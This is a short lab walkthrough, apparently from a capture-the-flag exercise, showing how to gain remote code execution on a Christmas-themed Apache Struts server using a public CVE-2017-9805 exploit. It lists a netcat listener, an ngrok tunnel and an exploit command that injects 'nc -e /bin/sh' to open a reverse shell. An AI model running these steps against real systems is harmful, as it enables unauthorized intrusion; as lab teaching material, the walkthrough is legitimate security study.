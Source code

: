 # Lab 6. Real-life RCE

Download [the exploit](https://github.com/chrisjd20/cve-2017-9805.py/blob/master/cve-2017-9805.py).

Take a look at https://dev.northpolechristmastown.com. Notice "Apache Struts" at the bottom of the page.

Start a netcat listener:
```
nc -nlvp 1337
```

Download and configure [ngrok](https://ngrok.com). Then run it in another shell and note the listening address and port number:
```
ngrok tcp 1337
```

Run the exploit:
```
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders -c 'nc -e /bin/sh <address> <port>'
```
